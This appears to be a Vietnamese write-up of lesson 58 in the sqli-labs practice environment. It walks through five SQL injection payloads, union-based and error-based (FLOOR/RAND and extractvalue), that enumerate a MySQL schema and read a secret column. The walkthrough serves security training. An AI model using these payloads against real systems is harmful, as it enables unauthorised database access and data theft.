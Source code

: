 # Những việc làm được với lesson-58
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-58

![](../images/lesson58/screen_3.png)


Bài này yêu cầu giống mấy bài trước ta chỉ việc đi tìm cấu trúc của nó Và kết hợp cùng với union luôn. Và ta có được 5 lần thử  

- Lần 1: 
```
192.168.80.225/sqli-labs/Less-58/?id=0') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson58/screen.png)

- Lần 2
```
192.168.80.225/sqli-labs/Less-58/?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

![](../images/lesson58/screen_1.png)

Ở đây ta thấy lạ rằng đây ko phải tên của bảng trong `CHALLENGES`. Mà ở lần đầu ta nhìn thấy error chứng tỏ ta sẽ cần sử dụng error base. Ta đã có được tên DB rồi thì ta cần show tên table. dùng error-base để show tên table 

- Lần 3 : Sử dụng error base như lần làm với bài 5 để tìm ra tên table.
```
192.168.80.225/sqli-labs/Less-58/?id=1'and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='challenges' ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/lesson58/screen_2.png)

- Lần 4: Tìm tên các trường 
```
192.168.80.225/sqli-labs/Less-58/?id=1' || extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema = "challenges" and table_name="ZYGPG2I20D")))--+
```

![](../images/lesson58/screen_4.png) 

lần 5: Ta đọc dữ liệu từ bảng này 
```
192.168.80.225/sqli-labs/Less-58/?id=1' || extractvalue(1,concat(0x7e,(select group_concat(secret_NPNK) from ZYGPG2I20D )))--+
```

![](../images/lesson58/screen_5.png) 
